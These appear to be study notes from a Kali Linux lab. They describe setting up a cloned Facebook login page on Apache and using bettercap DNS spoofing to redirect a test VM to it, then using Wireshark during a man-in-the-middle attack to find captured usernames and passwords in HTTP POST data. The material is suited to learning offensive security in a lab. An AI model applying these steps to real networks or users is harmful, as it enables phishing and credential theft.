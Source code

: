 **Redirect from web-page to another. Used in phising**

Access the kali default server page 
```sh
/var/www/html 
```
 
 Start kali server  
```sh
service apache2 start
```
- Use ifconfig to find your own IP which is where the server is located
- You need to copy the, for example facebook, webpage HTML saved as index.html (you can use tools that can help you do this)

Set DNS spoofing 
```sh
set dns.spoof.domains facebookk.com
```

Start DNS spoof
```sh
dns.spoof on
```
- Now we can try it using our windows VM. If it doesn't work try clearing browsing history

---

**WireShark**

- Source - Our IP (not always this way around. the message might come from another IP to our machine in which case it would be revered)
- Destination - IP of what we are connecting to
- Protocol - Method of connection TCP,UDP, ARP etc 
- You can double click on specific packets for a clearer view 
- With bettercap running, as a man-in-the-middle, you can capture passwords and other information
- Use the WireShark search bar to look for specific protocols like HTTP. Now you could look for POST to find any login details under `HTML Form URL Encoded`
- WireShark also has a find feature to help you find specific strings in the search results. So in this case you might search for username. Press find a few times if the desired result does not show the first time

